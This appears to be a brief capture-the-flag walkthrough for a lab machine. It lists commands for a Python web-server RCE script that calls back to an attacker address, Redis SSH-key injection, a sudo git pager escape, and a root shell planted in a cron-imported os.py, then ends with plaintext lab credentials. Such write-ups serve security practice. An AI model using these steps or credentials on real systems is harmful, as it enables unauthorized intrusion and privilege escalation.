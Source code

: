 # User

## Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://10.10.69.13:8080/ 10.10.69.42 3000

## Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

## redis sudo -l

can gain access to michiko-arasaka user with:

    sudo -u michiko-arasaka /usr/bin/git -p help

# Root

## /lib/python2.7/os.py
A crontab running as root runs every minute that executes /opt/BackupRedis/backup.py and import os.py
os.py is writable by michiko-arasaka

You can root the box from michiko-arasaka user by putting a shell at the bottom of
/lib/python2.7/os.py and waiting for the cron job to execute.

# Creds
root:UnguessableP@ssw0rd

michiko-arasaka:4d4m5M@SH3R


